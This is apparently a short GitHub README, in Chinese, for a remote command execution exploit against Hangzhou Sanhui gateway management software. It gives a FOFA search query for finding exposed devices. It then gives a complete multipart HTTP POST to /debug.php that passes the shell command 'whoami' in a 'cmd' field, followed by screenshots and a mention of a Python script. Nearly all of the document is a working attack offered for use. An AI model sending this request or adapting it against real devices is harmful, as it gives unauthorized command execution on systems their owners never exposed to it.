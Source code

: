 # -debugrce-
杭州三汇网关debugrce漏洞

fofa-query: body="text ml10 mr20" && title="网关管理软件"

```

POST /debug.php HTTP/1.1
Host: 
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryAEiWTHP0DxJ7Uwmb
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15

------WebKitFormBoundaryAEiWTHP0DxJ7Uwmb
Content-Disposition: form-data; name="comdtype"

1
------WebKitFormBoundaryAEiWTHP0DxJ7Uwmb
Content-Disposition: form-data; name="cmd"

whoami
------WebKitFormBoundaryAEiWTHP0DxJ7Uwmb
Content-Disposition: form-data; name="run"

------WebKitFormBoundaryAEiWTHP0DxJ7Uwmb--
```

![图片](https://github.com/user-attachments/assets/0c0f46db-6a86-4dba-a554-3c063bb42cad)

使用py文件
![图片](https://github.com/user-attachments/assets/8615a505-c41d-474a-8275-8a26d194a390)

